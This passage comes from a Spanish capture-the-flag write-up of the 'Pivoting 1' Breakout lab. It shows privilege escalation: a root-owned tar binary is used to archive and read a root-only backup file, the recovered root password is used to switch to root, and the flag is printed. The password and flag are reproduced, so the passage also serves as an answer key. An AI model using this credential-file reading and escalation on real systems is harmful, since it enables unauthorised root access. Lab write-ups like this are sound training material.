 ![](/assets/images/Laboratorios/pivoting/05-flaw.png)

f. Investigamos formas de escalar privilegios y encontramos un binario **`tar`** en nuestro directorio de usuario y un fichero **.old_pass.bak** 

```bash
cyber@breakout:~$ ls -la
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar

cyber@breakout:/var/backups$ ls -la
-rw-------  1 root root    17 Oct 20  2021 .old_pass.bak
```

* Vemos que el dueño del binario tar es root y cualquier otro usuario lo puede ejecutar, por lo que usaremos este binario en específico para comprimir el fichero **.old_pass.bak**

    ```bash
    cyber@breakout:/var/backups$ /home/cyber/tar -czvf /tmp/old_pass.tar.gz .old_pass.bak
    cyber@breakout:/tmp$ /home/cyber/tar -xzvf old_pass.tar.gz
    cyber@breakout:/tmp$ cat .old_pass.bak 
    Ts&4&YurgtRX(=~h
    ```

g. Esta contraseña es del usuario **root** por lo que hemos culminado el laboratorio de **`Pivoting 1`** 🐱‍🐉

```bash
cyber@breakout:/tmp$ su root
Password: Ts&4&YurgtRX(=~h
root@breakout:~# cat rOOt.txt 
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```